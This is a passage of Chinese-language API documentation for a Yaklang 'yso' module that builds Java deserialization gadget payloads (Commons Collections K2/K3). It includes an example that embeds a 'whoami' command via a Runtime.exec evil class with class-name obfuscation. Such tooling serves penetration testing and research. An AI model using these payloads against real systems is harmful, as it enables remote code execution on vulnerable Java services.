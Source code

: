 **请求参数**

- `options` : 用于配置Java对象的可变参数函数列表

**返回类型**

- `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil错误，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象，使用Runtime Exec方法执行命令，并指定恶意类的名称

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetCommonsCollectionsK2JavaObject(

	yso.useRuntimeExecEvilClass(command),
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className),

)
```

## 33. `yso.GetCommonsCollectionsK3JavaObject`

## 功能描述

基于Commons Collections K3 序列化模板生成并返回一个Java对象，接受一个命令字符串作为参数，并将该命令设置在生成的Java对象中。

## 参数说明

```
func GetCommonsCollectionsK3JavaObject(cmd: string) => => (*JavaObject, error)
```

**请求参数**

- `cmd` : 要设置在Java对象中的命令字符串。

**返回类型**

- `r1` : 成功时返回生成的Java对象。
- `r2` : 成功时返回nil错误；失败时返回相应错误。

## 示例代码

### 基础用法

假设的命令字符串为'ls'，生成Java对象并输出十六进制payload。
